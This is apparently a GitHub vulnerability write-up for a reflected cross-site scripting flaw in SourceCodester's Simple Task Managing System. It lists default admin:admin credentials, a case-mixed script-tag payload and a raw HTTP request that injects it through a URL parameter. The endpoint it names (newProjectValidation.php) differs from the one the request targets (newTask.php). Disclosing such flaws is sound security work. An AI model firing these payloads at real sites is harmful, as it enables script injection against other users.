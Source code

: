 # Simple Task Managing System - XSS2

A vulnerability classified as problematic was found in SourceCodester Simple Task Managing System. This vulnerability affects unknown code. The manipulation of the argument newProjectValidation.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin ----> {ip}/newProjectValidation.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/newProjectValidation.php has XSS

> Payload: "><ScRiPt>alert(1)</sCrIpT>

XSS because $full can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/1.png)

## Payload

```sql
GET http://localhost/cve/Task%20Managing%20System%20in%20PHP/newTask.php?sn=%3CsCrIpT%3Ealert(1)%3C/sCrIpT%3E HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=34a9idaoj7m7miduqt31hupisn
Connection: close
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/3.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/2.png)